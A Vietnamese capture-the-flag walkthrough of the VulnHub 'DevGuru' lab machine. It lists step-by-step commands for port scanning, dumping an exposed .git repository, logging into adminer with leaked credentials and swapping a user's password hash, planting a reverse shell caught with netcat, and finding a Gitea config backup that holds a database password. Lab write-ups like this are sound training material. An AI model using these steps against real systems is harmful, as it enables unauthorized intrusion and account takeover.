






[VulnHub] DevGuru
Overview
Link download: DevGuru
Difficulty: Intermediate (Depends on experience)
Information Gathering
Nmap
Đầu tiên, vẫn là phải kiếm xem địa chỉ IP của machine này là gì.
$ nmap 10.10.10.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-27 21:20 +07
Nmap scan report for 10.10.10.13
Host is up (0.00029s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 256 IP addresses (2 hosts up) scanned in 3.12 secondsYep. 10.10.10.13. Giờ thì liệt kê đống port đang public.
$ nmap -p- 10.10.10.13
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-02 20:04 +07
Nmap scan report for 10.10.10.13
Host is up (0.00014s latency).
Not shown: 65532 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
8585/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 1.30 secondsỞ đây có 3 cổng, với 2 cổng quen thuộc là 22-SSH và 80-HTTP, cổng 8585 chạy gì đó chưa biết, mò xem nó chạy cái quần què gì nào.
$ nmap -p 22,80,8585 -sV -sC 10.10.10.13
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-27 21:20 +07
Nmap scan report for 10.10.10.11
Host is up (0.00059s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 2a:46:e8:2b:01:ff:57:58:7a:5f:25:a4:d6:f2:89:8e (RSA)
| 256 08:79:93:9c:e3:b4:a4:be:80:ad:61:9d:d3:88:d2:84 (ECDSA)
|_ 256 9c:f9:88:d4:33:77:06:4e:d9:7c:39:17:3e:07:9c:bd (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: DevGuru
| http-git:
| 10.10.10.11:80/.git/
| Git repository found!
| Repository description: Unnamed repository; edit this file 'description' to name the...
| Last commit message: Update config
| Remotes:
| http://devguru.local:8585/frank/devguru-website.git
|_ Project type: PHP application (guessed from .gitignore)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corp - DevGuru
8585/tcp open unknown
| fingerprint-strings:
| GenericLines:
| HTTP/1.1 400 Bad Request
| Content-Type: text/plain; charset=utf-8
| Connection: close
| Request
| GetRequest:
| HTTP/1.0 200 OK
| Content-Type: text/html; charset=UTF-8
| Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
| Set-Cookie: i_like_gitea=f5cb85ba00f5ac55; Path=/; HttpOnly
| Set-Cookie: _csrf=eq2VCGxTulo0mUCtx873_fFheTc6MTYwOTEwNDA0MjgwMDY1Mzk3NA; Path=/; Expires=Mon, 28 Dec 2020 21:20:42 GMT; HttpOnly
| X-Frame-Options: SAMEORIGIN
| Date: Sun, 27 Dec 2020 21:20:42 GMT
| <!DOCTYPE html>
| <html lang="en-US" class="theme-">
| <head data-suburl="">
| <meta charset="utf-8">
| <meta name="viewport" content="width=device-width, initial-scale=1">
| <meta http-equiv="x-ua-compatible" content="ie=edge">
| <title> Gitea: Git with a cup of tea </title>
| <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
| <meta name="theme-color" content="#6cc644">
| <meta name="author" content="Gitea - Git with a cup of tea" />
| <meta name="description" content="Gitea (Git with a cup of tea) is a painless
| HTTPOptions:
| HTTP/1.0 404 Not Found
| Content-Type: text/html; charset=UTF-8
| Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
| Set-Cookie: i_like_gitea=f37dba54c746a30d; Path=/; HttpOnly
| Set-Cookie: _csrf=ga_W3gROV5xX9EySESK1ME01kAQ6MTYwOTEwNDA0MjgxNzgyMTExMA; Path=/; Expires=Mon, 28 Dec 2020 21:20:42 GMT; HttpOnly
| X-Frame-Options: SAMEORIGIN
| Date: Sun, 27 Dec 2020 21:20:42 GMT
| <!DOCTYPE html>
| <html lang="en-US" class="theme-">
| <head data-suburl="">
| <meta charset="utf-8">
| <meta name="viewport" content="width=device-width, initial-scale=1">
| <meta http-equiv="x-ua-compatible" content="ie=edge">
| <title>Page Not Found - Gitea: Git with a cup of tea </title>
| <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
| <meta name="theme-color" content="#6cc644">
| <meta name="author" content="Gitea - Git with a cup of tea" />
|_ <meta name="description" content="Gitea (Git with a c
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8585-TCP:V=7.91%I=7%D=12/27%Time=5FE8983C%P=x86_64-pc-linux-gnu%...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.14 secondsCó thể thấy cổng 8585 đang chạy một dịch vụ HTTP, nhưng tạm thời chưa biết chính xác nó là gì, phiên bản bao nhiêu, biết thế cái đã.
Vào thử web trên cổng 8585.

Okay, Gitea, nó giống như Github, một nơi lưu trữ source code. Cứ kệ đấy cái đã, giờ vào cái web trên cổng 80 coi mặt mũi nó ra sao.
Một trang landing, không có gì nhiều ở đây cả. Liệt kê các thư mục và tệp tin của cái web này ra xem có vẹo gì nữa không.
$ ./dirsearch.py -u http://10.10.10.13/ -e html,php,txt -x 403
_|. _ _ _ _ _ _|_ v0.4.1
(_||| _) (/_(_|| (_| )
Extensions: html, php, txt | HTTP method: GET | Threads: 30 | Wordlist size: 9791
Error Log: #
Target: http://10.10.10.11/
Output File: #
[21:28:10] Starting:
[21:28:14] 301 - 309B - /.git -> http://10.10.10.11/.git/
[21:28:14] 200 - 14B - /.git/COMMIT_EDITMSG
[21:28:14] 200 - 23B - /.git/HEAD
[21:28:14] 200 - 276B - /.git/config
[21:28:14] 200 - 109B - /.git/FETCH_HEAD
[21:28:14] 200 - 73B - /.git/description
[21:28:14] 200 - 240B - /.git/info/exclude
[21:28:14] 200 - 1MB - /.git/index
[21:28:14] 200 - 307B - /.git/logs/HEAD
[21:28:14] 301 - 325B - /.git/logs/refs/heads -> http://10.10.10.11/.git/logs/refs/heads/
[21:28:14] 301 - 319B - /.git/logs/refs -> http://10.10.10.11/.git/logs/refs/
[21:28:14] 200 - 307B - /.git/logs/refs/heads/master
[21:28:14] 301 - 327B - /.git/logs/refs/remotes -> http://10.10.10.11/.git/logs/refs/remotes/
[21:28:14] 301 - 334B - /.git/logs/refs/remotes/origin -> http://10.10.10.11/.git/logs/refs/remotes/origin/
[21:28:14] 200 - 284B - /.git/logs/refs/remotes/origin/master
[21:28:14] 301 - 320B - /.git/refs/heads -> http://10.10.10.11/.git/refs/heads/
[21:28:14] 301 - 322B - /.git/refs/remotes -> http://10.10.10.11/.git/refs/remotes/
[21:28:14] 301 - 329B - /.git/refs/remotes/origin -> http://10.10.10.11/.git/refs/remotes/origin/
[21:28:14] 200 - 173B - /.git/packed-refs
[21:28:14] 301 - 319B - /.git/refs/tags -> http://10.10.10.11/.git/refs/tags/
[21:28:14] 200 - 41B - /.git/refs/remotes/origin/master
[21:28:14] 200 - 413B - /.gitignore
[21:28:15] 200 - 2KB - /.htaccess
[21:28:21] 200 - 12KB - /0
[21:28:23] 200 - 18KB - /About
[21:28:26] 200 - 1KB - /README.md
[21:28:30] 200 - 18KB - /about
[21:28:38] 200 - 4KB - /adminer.php
[21:28:43] 302 - 402B - /backend/ -> http://10.10.10.11/backend/backend/auth
[21:28:47] 301 - 311B - /config -> http://10.10.10.11/config/
[21:29:51] 200 - 12KB - /index.php
[21:29:56] 301 - 312B - /modules -> http://10.10.10.11/modules/
[21:30:03] 301 - 312B - /plugins -> http://10.10.10.11/plugins/
[21:30:07] 200 - 10KB - /services
[21:30:07] 200 - 10KB - /services/
[21:30:10] 301 - 312B - /storage -> http://10.10.10.11/storage/
[21:30:12] 301 - 311B - /themes -> http://10.10.10.11/themes/
Task CompletedỐ ồ! Một đống thứ liên quan đến git, ờ thế… git là gì?
https://vi.wikipedia.org/wiki/Git_(ph%E1%BA%A7n_m%E1%BB%81m)
Git (/ɡɪt/, đọc là “Ghít”) là phần mềm quản lý mã nguồn phân tán được phát triển bởi Linus Torvalds vào năm 2005, ban đầu dành cho việc phát triển nhân Linux. Hiện nay, Git trở thành một trong các phần mềm quản lý mã nguồn phổ biến nhất. Git là phần mềm mã nguồn mở được phân phối theo giấy phép công cộng GPL2.
Ờm, đại khái nó là một thứ giúp cho việc quản lý mã nguồn được ngon nghẻ hơn, cái này thì anh em nào làm dev sẽ quá là rõ. Git khiến việc phát triển dự án với nhiều người cùng tham gia dễ dàng hơn, tránh các xung đột không đáng có và rất nhiều lợi ích mà nó đem lại.
Và với nhiều lợi ích như thế, git thực sự phổ biến. Nhưng việc sử dụng git một cách hiệu quả và an toàn thì không phải ai cũng nắm được.
Khái niệm cơ bản của git, là nó lưu lại tất cả các phiên bản sau mỗi lần thực hiện commit. Điều này là một lợi ích to lớn, vì khi phiên bản mới gặp lỗi và chưa thể khắc phục, nhà phát triển có thể sử dụng phiên bản trước đó đã được lưu trong git để roll back lại. Đây cũng là lí do khiến git, nếu không được cấu hình đúng cách, nó sẽ khiến toàn bộ mã nguồn của dự án bị lộ, hoặc password, private key, thông tin cấu hình… bị đánh cắp.
Vậy thì mấy cái xàm xàm mình nói ở trên thì liên quan đéo gì đến bài này. Nhìn lại xem. Cả một đống thông tin liên quan đến git lù lù thế kia, giờ làm cách nào đó để đem nó về máy mình và mổ xẻ, mình hoàn toàn có thể có được mã nguồn của trang này. Thử xem nhé.
Git Dumper
$ ./gitdumper.sh http://10.10.10.13/.git/ ~/boot2root/devguru
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########
[*] Destination folder does not exist
[+] Creating /home/#####/boot2root/devguru/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[-] Downloaded: objects/24/f020e71d01899c89a440e2e8e5d65d016f9473
[-] Downloaded: objects/3f/1f4cd74e0cea0d64ab9a14875954fb0c39eeaf
[-] Downloaded: objects/4d/d5e1d2e02195ac03ed685ac05024f0faef128a
[-] Downloaded: objects/72/819740b89eb5f315808c8648d55bd2db369493
[-] Downloaded: ...bla...bla...bla...Chống cằm 3 phút cuối cùng nó cũng tải xong một đống thứ lằng nhằng. Cái đống lằng nhằng đấy là gì thì quay lại Google về git thêm nhé :v
Vào thư mục mà mình vừa tải một đống thứ kia về, kiểm tra git log, git status các kiểu xem nó hiện ra gì.
$ git log
commit 7de9115700c5656c670b34987c6fbffd39d90cf2 (HEAD -> master)
Author: frank <frank@devguru.local>
Date: Thu Nov 19 18:42:03 2020 -0600
first commitOkay, có mỗi cái first commit thôi, giờ thì checkout nó ra để xem điều bất cmn ngờ.
Ở đây mình muốn checkout ra phiên bản mới nhất, nên dùng dấu chấm, còn muốn chọn phiên bản nào để checkout thì copy 7 ký tự đầu của cái hash kia kìa rồi paste vào (VD: git checkout 7de9115)
$ git checkout .
Updated 2491 paths from the index
$ ls -al
total 416
drwxr-xr-x 9 ##### ##### 4096 Jan 2 20:55 .
drwxr-xr-x 3 ##### ##### 4096 Jan 2 20:47 ..
-rw-r--r-- 1 ##### ##### 362514 Jan 2 20:55 adminer.php
-rw-r--r-- 1 ##### ##### 1640 Jan 2 20:55 artisan
drwxr-xr-x 2 ##### ##### 4096 Jan 2 20:55 bootstrap
drwxr-xr-x 2 ##### ##### 4096 Jan 2 20:55 config
drwxr-xr-x 6 ##### ##### 4096 Jan 2 20:55 .git
-rw-r--r-- 1 ##### ##### 413 Jan 2 20:55 .gitignore
-rw-r--r-- 1 ##### ##### 1678 Jan 2 20:55 .htaccess
-rw-r--r-- 1 ##### ##### 1173 Jan 2 20:55 index.php
drwxr-xr-x 5 ##### ##### 4096 Jan 2 20:55 modules
drwxr-xr-x 3 ##### ##### 4096 Jan 2 20:55 plugins
-rw-r--r-- 1 ##### ##### 1518 Jan 2 20:55 README.md
-rw-r--r-- 1 ##### ##### 551 Jan 2 20:55 server.php
drwxr-xr-x 6 ##### ##### 4096 Jan 2 20:55 storage
drwxr-xr-x 4 ##### ##### 4096 Jan 2 20:55 themesÓ ò, toàn bộ mã nguồn của cái web này ở đây cả =)) mà cũng quên béng mất cái URL dẫn đến trang login vào cơ sở dữ liệu là adminer.php.

Vào xem file cấu hình database lấy username password rồi login vào thôi, ez game.
Lúc này, sau khi login thành công vào, thấy có cái bảng liên quan đến backend_users, mặt mũi nó như thế này này.

Có thể thấy ngay mật khẩu người dùng được mã hóa sử dụng bcrypt, một dạng hash để phòng tránh việc brute-force. Ùi giời ơi, vào đến đây rồi thì việc đéo gì phải brute-force cho mệt, tạo luôn một cái hash bcrypt với mật khẩu mà mình đã biết rồi chèn thẳng vào là xong à!
Để ý mật khẩu của frank đang là:
$2y$10$bp5wBfbAN6lMYT27pJMomOGutDF2RKZKYZITAupZ3x8eAaYgN6EKK
Với $2y$10, có nghĩa rằng bcrypt ở đây đang có số rounds là 10. EZ!!!
Đây là hash của mình với password là 00000.
$2y$10$HiSr8anMnFN/kx1.bKKUe.eHPWNBEetsTVj4aNibZcYu71bcRychm
Chèn nó vào ô password, chiếm được tài khoản frank. Sorry Frank =))
Login vào /backend nào!

Chuyển sang CMS, khá buồn cười là cái Framework này cho phép chỉnh sửa code ngay trên trang quản trị CMS, ở đây có thể upload ảnh ọt, file, chèn code bla bla vân vân mây mây, có một đống cách để có được shell.
Sau một hồi ngồi làm quen cú pháp, mình quyết định dùng code để tạo reverse shell.

Save lại, và đồng thời phải bật netcat để lắng nghe trên cổng đã đặt trước trong code kia (port 22222). Đoạn code này sẽ được thực thi khi mà page Home được load, vậy nên giờ chỉ cần truy cập vào nó là đã lấy được www-data shell rồi.
$ nc -nlvp 22222
listening on [any] 22222 ...
connect to [10.10.10.1] from (UNKNOWN) [10.10.10.13] 54142
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)Okey, có shell rồi, nhưng chẳng làm được gì nhiều, nhưng ít ra làm được mấy trò hay ho. Xem xem machine này đang có những user nào.
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
frank:x:1000:1000:,,,:/home/frank:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/falseHmm, có mỗi thằng frank, www-data cũng không có quyền đọc thư mục /home/frank.
Kiểm tra xem frank có đang chạy cái gì hay không.
$ ps -aux | grep frank
frank 610 0.7 19.8 1442108 200500 ? Ssl 14:04 0:04 /usr/local/bin/gitea web --config /etc/gitea/app.iniThấy được là frank đang chạy Gitea, cái web trên cổng 8585 ban nãy nmap quét được ấy. Vẫn hơi bí. Dùng linPEAS xem sao…
LinPEAS
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
Chống cằm ngồi xem linPEAS nó xổ ra một đống loằng toằng ngoằng, phát hiện được một dòng này cực hay ho…
[+] Backup files?
-rw-r--r-- 1 frank frank 56688 Nov 19 19:34 /var/backups/app.ini.bakĐây có thể là file backup của file cấu hình app.ini, là file cấu hình của cái thằng Gitea trên cổng 8585 kia kìa. Trong đấy thể éo nào cũng một đống tài khoản mật khẩu cho mà xem =))
$ cat /var/backups/app.ini.bak
...
; The protocol the server listens on. One of 'http', 'https', 'unix' or 'fcgi'.
PROTOCOL = http
DOMAIN = devguru.local
ROOT_URL = http://devguru.local:8585/
; when STATIC_URL_PREFIX is empty it will follow ROOT_URL
STATIC_URL_PREFIX =
; The address to listen on. Either a IPv4/IPv6 address or the path to a unix socket.
HTTP_ADDR = 0.0.0.0
; The port to listen on. Leave empty when using a unix socket.
HTTP_PORT = 8585
...
[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE = mysql
HOST = 127.0.0.1:3306
NAME = gitea
USER = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD = UfFPTF8C8jjxVF2m
...
; Password Hash algorithm, either "argon2", "pbkdf2", "scrypt" or "bcrypt"
PASSWORD_HASH_ALGO = pbkdf2
...Vậy là có được thông tin đăng nhập vào database, và thông tin liên quan đến thuật toán mã hóa được sử dụng. Database được chạy chung trên cổng 3306 nên mình hoàn toàn có thể sử dụng /adminer để đăng nhập vào.
Sau khi đăng nhập, mình thấy có một bảng user, trong đó có tài khoản của frank, với mật khẩu mã hóa kiểu gì éo biết, nhưng ở ngay dưới đó, phần passwd_hash_algo đang có giá trị là pbkdf2. Để chiếm được tài khoản Gitea của frank, lúc này sẽ phải thay đổi passwd với hash là mật khẩu đã biết.
Đến đây thì có 2 cách làm:
- Cách 1: PBKDF2 yêu cầu 5 tham số đầu vào, đó là Password, Salt, Hash function, Iterations count và Key length. Password và Salt thì có thể tùy ý, nhưng 3 cái còn lại thì tuyệt đối đúng. Nên là phải đi tìm :/
- Cách 2: Như thông tin có được trên app.ini.bak, passwd_hash_algo chấp nhận 4 loại hash, trong 4 loại này, quen nhất vẫn là bcrypt. Ơ thế, giờ điền mật khẩu hash là bcrypt và để passwd_hash_algo là bcrypt thì sao nhở.
Để thể hiện mình là người thừa thời gian, mình sẽ làm cả 2 cách :D
Với cách 1, Google và Google thật nhiều, với từ khóa là pbkdf2 gitea default, mình tìm được:
- Hash function: SHA256
- Iterations count: 10000
- Key length: 50
